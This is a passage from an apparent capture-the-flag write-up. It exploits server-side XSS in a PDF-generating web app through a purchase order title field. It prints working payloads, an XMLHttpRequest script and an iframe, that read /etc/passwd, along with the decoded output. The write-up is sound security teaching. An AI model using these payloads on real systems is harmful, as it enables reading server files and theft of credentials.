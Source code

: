 If this works, that shows that I can run JavaScript.

The easiest field to inject into looks like the “title” field. I’ll send the POST request to Repeater, and put this payload in the `title` field, as that’s one that is displayed back in the PDF:

![image-20230612104652495](/img/image-20230612104652495.png)

The site reports success. Visiting the url for that purchase order (`/api/po/[id]`) shows it worked:

![image-20230612110025160](/img/image-20230612110025160.png)

“test” overwrote all the other HTML / CSS that was making the PDF.

#### File Read POCs

In the [Read local file](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf#read-local-file) section, there are POCs to try. The first one involves a script using an `XMLHttpRequest` to read a file:

```

<script>
x=new XMLHttpRequest;
x.onload=function(){document.write(btoa(this.responseText))};
x.open("GET","file:///etc/passwd");x.send();
</script>

```

I’ll remove the newlines and escape the double quotes, place it as the `title`, and it works, kind of:

![image-20230612114615486](/img/image-20230612114615486.png)

Only the start of `/etc/passwd` makes it into the page before it’s truncated:

```

oxdf@hacky$ echo "cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9iaW46L3Vzci9" | base64 -d
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/base64: invalid input

```

It’s possible that there’s a way to pull a more complete string out of the PDF, but I’ll look at the other POCs, like this one that loads the file in an `iframe`:

```

<iframe src=file:///etc/passwd></iframe>

```

![image-20230612120602208](/img/image-20230612120602208.png)
